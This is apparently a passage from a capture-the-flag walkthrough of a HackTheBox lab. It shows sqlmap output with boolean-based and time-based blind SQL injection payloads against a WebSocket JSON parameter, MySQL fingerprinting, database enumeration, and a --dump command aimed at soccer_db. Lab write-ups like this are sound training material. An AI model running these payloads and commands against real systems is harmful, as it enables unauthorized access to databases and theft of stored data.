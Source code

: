 ```
[12:58:27] [INFO] resuming back-end DBMS 'mysql' 
[12:58:27] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-2160 OR 3784=3784"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1234 AND (SELECT 1602 FROM (SELECT(SLEEP(5)))atwD)"}
---
[12:58:31] [INFO] testing MySQL
[12:58:33] [INFO] confirming MySQL
[12:58:33] [INFO] the back-end DBMS is MySQL
[12:58:33] [INFO] fetching banner
[12:58:33] [INFO] resumed: 8.0.31-0ubuntu0.20.04.2
[12:58:33] [INFO] executing MySQL comment injection fingerprint
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: active fingerprint: MySQL >= 8.0.0
               comment injection fingerprint: MySQL 8.0.31
               banner parsing fingerprint: MySQL 8.0.31
banner: '8.0.31-0ubuntu0.20.04.2'
[12:58:33] [INFO] fetching database names
[12:58:33] [INFO] fetching number of databases
[12:58:33] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[12:58:33] [INFO] retrieved: 5
[12:58:42] [INFO] retrieved: mysql
[12:59:27] [INFO] retrieved: information_schema
[13:02:04] [INFO] retrieved: performance_schema
[13:04:41] [INFO] retrieved: sys
[13:05:10] [INFO] retrieved: soccer_db
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```
- the non-default database in mysql is `soccer_db`

Q8: submit the flag located in the player user's home directory 
 - we can try dump the data inside soccer_db database 
```
$ sqlmap -u ws://soc-player.soccer.htb:9091  --dump soccer_db  --data '{"id": "1234"}' -b --fingerprint --batch --level 5 --risk 3 
        ___
       __H__                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.9.2#stable}                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

```